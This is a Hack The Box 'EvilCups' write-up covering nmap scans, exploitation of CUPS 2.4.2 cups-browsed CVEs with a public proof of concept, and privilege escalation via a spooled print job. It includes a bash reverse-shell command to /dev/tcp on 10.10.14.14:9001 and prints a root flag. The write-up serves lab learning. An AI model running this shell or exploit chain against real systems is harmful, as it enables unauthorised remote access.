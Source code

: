 ```yaml
---
title : "Hack The Box - EvilCups"
author: imdang 🤞🤞
date: 2024-11-13 11:33:00 +0800
categories: [Hackthebox, Hackthebox-Linux, Hackthebox-Medium]
tags: [nmap,cups,linpeas,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon
## Nmap

The first thing that I do is run nmap scan that show this results:
```console
# Nmap 7.94SVN scan initiated Thu Oct 31 03:16:36 2024 as: nmap -sV -sC --min-rate=1000 -p- -o nmap 10.10.11.40
Warning: 10.10.11.40 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.40
Host is up (0.27s latency).
Not shown: 64302 closed tcp ports (conn-refused), 1231 filtered tcp ports (no-response)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 03:19:48 2024 -- 1 IP address (1 host up) scanned in 191.98 seconds
```

From the nmap results, we can see that there is port 22 SSH and port 631 TCP run CUPS 2.4.2 service. Take a search ```cups 2.4.2``` and run nmap to scan udp port

```console
┌──(kali㉿kali)-[~/htb/machine/evilcups]
└─$ sudo  nmap -sU -p 630-632 10.10.11.40 -o nmap_udp
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 10:42 EST
Nmap scan report for 10.10.11.40
Host is up (0.25s latency).

PORT    STATE         SERVICE
630/udp closed        rda
631/udp open|filtered ipp
632/udp closed        bmpp

Nmap done: 1 IP address (1 host up) scanned in 3.26 seconds
```

That's port 631 UDP run ipp (Internet Printer Protocol) 

## Website - TCP 631

Take a look in the website, that is a web interface for CUPS 2.4.2 service to control openprinting printer

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_cups.png)


# Exploit

## User

Search for changelog and CVE in google for CUPS 2.4.2.

I see that has 4 CVE:
- CVE-2024-47076 has a CVSS score of 8.6, representing a critical level of severity due to the ability of an attacker to send malicious IPP requests to manipulate printer settings and execute arbitrary code​
- CVE-2024-47175 also scores 8.6, allowing for a similar type of remote code execution through crafted print job submissions, targeting vulnerabilities in the PPD file processing​
- CVE-2024-47176 carries a CVSS score of 5.3, reflecting the potential for exploitation via the cups-browsed service
- CVE-2024-47177 is another critical vulnerability, also scoring 9.0 (previously 9.9), as it allows attackers to bypass security measures by sending malformed IPP requests​

Combine this a report in github can get RCE from CUPS service in link https://github.com/OpenPrinting/cups-browsed in ```security``` tab

Use it and change ```command``` to get reverse shell in port ```9001``` to "bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'"

Run ```poc.py``` and access to printers in CUPS web and select to ```Print Test Page``` to get reverse shell and get user flag

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_poc.png)

User flag: ```***```

# Privilege Escalation

## Linpeas

Come back to Web TCP 631 and see first Printer default in Web, i get that is printer with id 1 in this.

So see in documention, get the default evilcups filesystem in ```var/spool/cups```, but no read privilege in this, user ```lp``` just have execute privilege, and continue in documention default file name is ```d<print job>-<page number>```, ```<print job>``` needs to be 5 digits and ```<page number>``` be 3 digits. So file-path is ```var/spool/cups/d00001-001```.

cat it

```shell
cat /var/spool/cups/d00001-001
%!PS-Adobe-3.0
%%BoundingBox: 18 36 577 806
%%Title: Enscript Output
%%Creator: GNU Enscript 1.6.5.90
%%CreationDate: Sat Sep 28 09:31:01 2024
%%Orientation: Portrait
%%Pages: (atend)
%%DocumentMedia: A4 595 842 0 () ()
%%DocumentNeededResources: (atend)
%%EndComments
%%BeginProlog
%%BeginResource: procset Enscript-Prolog 1.6.5 90
%
% Procedures.
%

/_S {   % save current state
  /_s save def
} def
/_R {   % restore from saved state
  _s restore
} def

/S {    % showpage protecting gstate
  gsave
  showpage
  grestore
} bind def

/MF {   % fontname newfontname -> -     make a new encoded font
  /newfontname exch def
  /fontname exch def
...
```

See that the file ```d00001-001``` is ps file with DocumentMedia, so use tool ```ps2pdf``` to convert it to pdf

```console
p@evilcups:/$ ps2pdf /var/spool/cups/d00001-001 /tmp/d00001-001.pdf
ps2pdf /var/spool/cups/d00001-001 /tmp/d00001-001.pdf
lp@evilcups:/$ cd tmp
cd tmp
lp@evilcups:/tmp$ ls
ls
00d5e673a5af7
00d5e673c8b27
00d7f673b9575
00d7f673f3930
00dc8673acbd9
00dc8673d3f54
011d3673cb49e
011d3674208c4
03f816736a89b
03f816742929f
06d266737c890
06d26673a905e
06d5a673600d7
d00001-001.pdf
foomatic-8Zd8lA
foomatic-dC088b
foomatic-Nyxp01
foomatic-nzO5CZ
foomatic-o7RpxI
foomatic-sJEqZS
foomatic-TGU0gW
systemd-private-6f705080b80545b0a6fb3d6cd199155b-colord.service-uvXVLM
systemd-private-6f705080b80545b0a6fb3d6cd199155b-systemd-logind.service-p3WmZd
vmware-root_586-2696942867
```

Run http server and get pdf file

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_pdf.png)

SSH root with this password.

And now, WE ARE ROOT !! 

Root flag: ```2ff71ea6aba5d40af914c1af75672e2a```

# Box Rooted 

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_boxroot.png)

<!-- HTB Profile : [ficstkeyfx](https://app.hackthebox.com/profile/244565) -->

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
